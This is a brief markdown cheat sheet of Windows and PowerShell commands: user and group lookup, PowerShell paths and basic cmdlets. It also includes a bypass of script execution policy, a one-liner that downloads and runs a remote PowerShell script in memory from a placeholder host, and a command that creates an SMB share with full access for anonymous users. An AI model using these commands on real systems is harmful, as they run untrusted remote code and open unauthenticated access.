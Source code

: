 # Introduction

Windows commands and things

# Contents

[[_TOC_]]

# CLI Tools 

| Command | Description | 
| ------- | ----------- |
| Get current user | `whoami` |
| Get current user's groups | `whoami /groups` |

# Useful file locations

## PowerShell

### 32-bit
```
C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe
```

# Basic PowerShell Cmdlets
## Display commands available in your current PowerShell session:
```
get-command
```

## Import a module into PowerShell:
```
import-module <my_powershell_script.ps1>
```

## Change execution policy to allow system to run scripts:
```
set-executionpolicy bypass -scope process
```

# Cool PowerShell Commands
## Download and execute a PowerShell script in memory:
```
iex(New-Object net.WebClient).downloadString("http://<ip_hosting_file>/PowerShell_Script_Name.ps1")
```

## Create an SMB share that doesn't require authentication:
```
New-SmbShare -Name "Your_Share_Name" -Path "C:\Path\To\Files" -FullAccess "Everyone","Guests","Anonymous Logon"

```
